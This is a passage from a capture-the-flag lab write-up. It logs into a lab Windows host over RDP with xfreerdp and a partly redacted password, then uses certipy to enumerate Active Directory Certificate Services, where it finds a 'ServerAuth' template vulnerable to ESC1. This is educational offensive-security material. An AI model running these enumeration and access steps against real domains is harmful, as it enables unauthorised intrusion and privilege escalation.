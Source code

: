 Using `xfreerdp` to RDP into the machine, we can find the user flag inside the `user.txt` file on the desktop:

```console
$ xfreerdp /v:labyrinth.thm.local /u:'SUSANNA_MCKNIGHT' /p:'C[REDACTED]!' /dynamic-resolution /clipboard /cert:ignore
```

![User Flag](user_flag.webp){: width="1000" height="7000"}

## Root Flag

Checking AD CS for vulnerable certificate templates using `certipy`, we find a certificate template called **ServerAuth** vulnerable to **ESC1**:

```console
$ certipy-ad find -u 'SUSANNA_MCKNIGHT@thm.local' -p 'C[REDACTED]!' -target labyrinth.thm.local -stdout -vulnerable

...

Certificate Authorities
  0
    CA Name                             : thm-LABYRINTH-CA
    DNS Name                            : labyrinth.thm.local
    Certificate Subject                 : CN=thm-LABYRINTH-CA, DC=thm, DC=local
    Certificate Serial Number           : 5225C02DD750EDB340E984BC75F09029
    Certificate Validity Start          : 2023-05-12 07:26:00+00:00
    Certificate Validity End            : 2028-05-12 07:35:59+00:00
    Web Enrollment                      : Disabled
    User Specified SAN                  : Disabled
    Request Disposition                 : Issue
    Enforce Encryption for Requests     : Enabled
    Permissions
      Owner                             : THM.LOCAL\Administrators
      Access Rights
        ManageCertificates              : THM.LOCAL\Administrators
                                          THM.LOCAL\Domain Admins
                                          THM.LOCAL\Enterprise Admins
        ManageCa                        : THM.LOCAL\Administrators
                                          THM.LOCAL\Domain Admins
                                          THM.LOCAL\Enterprise Admins
        Enroll                          : THM.LOCAL\Authenticated Users
Certificate Templates
  0
    Template Name                       : ServerAuth
    Display Name                        : ServerAuth
    Certificate Authorities             : thm-LABYRINTH-CA
    Enabled                             : True
    Client Authentication               : True
    Enrollment Agent                    : False
    Any Purpose                         : False
    Enrollee Supplies Subject           : True
    Certificate Name Flag               : EnrolleeSuppliesSubject
    Enrollment Flag                     : None
    Private Key Flag                    : 16842752
    Extended Key Usage                  : Client Authentication
                                          Server Authentication
    Requires Manager Approval           : False
    Requires Key Archival               : False
    Authorized Signatures Required      : 0
    Validity Period                     : 1 year
    Renewal Period                      : 6 weeks
    Minimum RSA Key Length              : 2048
    Permissions
```